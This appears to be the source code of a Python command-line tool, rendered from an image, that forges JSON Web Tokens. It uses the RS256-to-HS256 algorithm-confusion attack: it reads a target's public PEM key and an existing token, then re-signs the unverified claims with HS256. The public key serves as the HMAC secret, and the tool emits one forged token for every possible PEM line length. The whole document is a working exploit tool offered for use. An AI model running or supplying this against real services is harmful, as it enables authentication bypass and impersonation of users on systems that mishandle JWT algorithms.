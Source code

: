 ```
parser.add_argument('-j', '--jwt-file', dest='jwt_file',
        default='jwt.txt', metavar='FILE',
        help='''File containing the JWT.''')
parser.add_argument('-k', '--key-file', dest='keyfile',
        default='key.pem', metavar='FILE',
        help='''File containing the public PEM key.''')
parser.add_argument('-a', '--algorithm', dest='algorithm',
        default='RS256', metavar='ALGO',
        help='''Original algorithm of the JWT.''')
parser.add_argument('-n', '--no-vary', dest='no_vary',
        default=False, action='store_true',
        help='''Sign only once with the exact key given.''')
args = parser.parse_args()

with open(args.keyfile, 'r') as f:
    try:
        pubkey = f.read()
    except: 
        sys.exit(2)

with open(args.jwt_file, 'r') as f:
    try:
        token = f.read().translate(None, '\n ')
    except: 
        sys.exit(2)

try:
    jwt.decode(token, pubkey, algorithms=args.algorithm)
except jwt.exceptions.InvalidSignatureError:
    sys.stderr.write('Wrong public key! Aborting.')
    sys.exit(1)
except: 
    pass

claims = jwt.decode(token, verify=False)
headers = jwt.get_unverified_header(token)
del headers['alg']
del headers['typ']

if args.no_vary:
    sys.stdout.write(jwt.encode(claims, pubkey, algorithm='HS256',
                headers=headers).decode('utf-8'))
    sys.exit(0)

lines = pubkey.rstrip('\n').split('\n')
if len(lines) < 3:
    sys.stderr.write('''Make sure public key is in a PEM format and
            includes header and footer lines!''')
    sys.exit(2)

hdr = pubkey.split('\n')[0]
ftr = pubkey.split('\n')[-1]
meat = ''.join(pubkey.split('\n')[1:-1])

sep = '\n-----------------------------------------------------------------\n'
for l in range(len(hdr), len(meat)+1):
    secret = '\n'.join([hdr] + filter(
        None,re.split('(.{%s})' % l, meat)) + [ftr])
    sys.stdout.write(
            '%s--- JWT signed with public key split at lines of length %s: ---%s%s' % \
            (sep, l, sep, jwt.encode(claims, secret, algorithm='HS256',
                headers=headers).decode('utf-8')))
    secret += '\n'
```